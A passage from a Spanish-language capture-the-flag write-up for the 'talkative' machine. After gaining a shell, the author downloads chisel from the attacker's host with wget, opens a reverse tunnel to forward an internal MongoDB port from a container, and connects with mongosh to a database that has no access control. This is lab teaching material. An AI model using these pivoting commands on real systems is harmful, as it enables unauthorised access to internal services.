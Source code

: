 Despues de un tiempo, podemos ver un proceso que esta ejecutando root, *update_mongo.py*

### ¿Qué es MongoDB?

#### MongoDB es una base de datos de documentos que ofrece una gran escalabilidad y flexibilidad, y un modelo de consultas e indexación avanzado.

Ehm...bueno...

Informandonos de mongo vemos que se maneja por defecto ocupando el puerto 27017, haciando el comando *'netstat -nat'* vemos que esta en un contener ejecutandose

```ruby
> saul@talkative:/tmp$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
...[snip]...   
tcp        0      0 172.17.0.1:49052        172.17.0.2:27017        TIME_WAIT  
tcp        0      0 172.17.0.1:49054        172.17.0.2:27017        TIME_WAIT  
...[snip]...
```

Nos podemos traer ese puerto como local con chisel

La máquina tiene conectividad con nuestro equpio asi que podemos hacer que descargue el chisel, nos montamos un servidor simple para ofrecer el chisel


```ruby
> saul@talkative:/tmp$ wget http://10.10.14.10/chisel
> saul@talkative:/tmp$ chmod +x chisel
```

Nuestro equipo debe iniciar el promagra como servidor y la máquina como cliente para poder tener su puerto 27017

```bash
❯ ./chisel server -reverse --host 10.10.14.10 --port 1234
```

```ruby
> saul@talkative.htb:/tmp$ ./chisel client 10.10.14.10:1234 R:27017:172.17.0.2:27017
```

Una vez conectado al puerto con mongosh podemos entrar en la base de datos 


```ruby
> mongosh
Current Mongosh Log ID:	631823c4f328877a7dc098e5
Connecting to:		mongodb://127.0.0.1:27017/?directConnection=true&serverSelectionTimeoutMS=2000&appName=mongosh+1.5.4
Using MongoDB:		4.0.26
Using Mongosh:		1.5.4

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2022-09-06T05:25:37.479+0000: 
   2022-09-06T05:25:37.479+0000: ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
   2022-09-06T05:25:37.479+0000: **          See http://dochub.mongodb.org/core/prodnotes-filesystem
   2022-09-06T05:25:44.166+0000: 
   2022-09-06T05:25:44.166+0000: ** WARNING: Access control is not enabled for the database.
   2022-09-06T05:25:44.166+0000: **          Read and write access to data and configuration is unrestricted.
   2022-09-06T05:25:44.166+0000:
------
```